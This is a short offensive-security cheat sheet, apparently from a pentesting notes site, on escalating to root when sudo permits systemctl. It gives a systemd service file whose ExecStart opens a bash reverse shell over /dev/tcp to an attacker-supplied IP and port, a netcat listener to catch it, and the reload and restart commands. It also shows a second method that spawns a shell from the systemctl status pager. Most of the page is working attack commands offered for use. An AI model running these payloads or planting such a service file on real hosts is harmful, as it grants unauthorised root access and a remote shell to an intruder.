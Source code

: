 ```yaml
---
title: Sudo Systemctl Privilege Escalation
description: sudo systemctl is vulnerable to privilege escalation by modifying the configuration file.
tags:
    - Privilege Escalation
refs:
    - https://gtfobins.github.io/gtfobins/systemctl/
date: 2023-07-12
draft: false
---
```


## Modify Configurations

```sh
sudo -l

(ALL) NOPASSWD: systemctl
```

If we can run **"systemctl"** command as root, and we can edit the config file, then we might be a root user.

### 1. Update the Config File

We need to insert the payload for reverse shell to get a root shell into the /etc/systemd/system/example.service.

```sh
[Unit]
This is an example service.

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

Replace **“\<local-ip\>”** with your local ip address.

### 2. Start Listener in Local Machine

Then start listener for getting a root shell.

```sh
nc -lvnp 4444
```

### 3. Restart the Service

Reload the daemon and restart.

```sh
sudo systemctl daemon-reload
sudo systemctl restart example.service
```

Now we should get a shell in local machine.

<br />

## Spawn Shell in the Pager

```bash
sudo -l

# output
(ALL) NOPASSWD: systemctl status example.service
```

If we can execute **`systemctl status`** as root, we can spawn another shell in the pager.  
Just run the command with `sudo`.

```bash
sudo systemctl status example.service
```

Then enter the following command in the pager like `less`.

```bash
!sh
```

Spawning the shell, then we can get another user shell.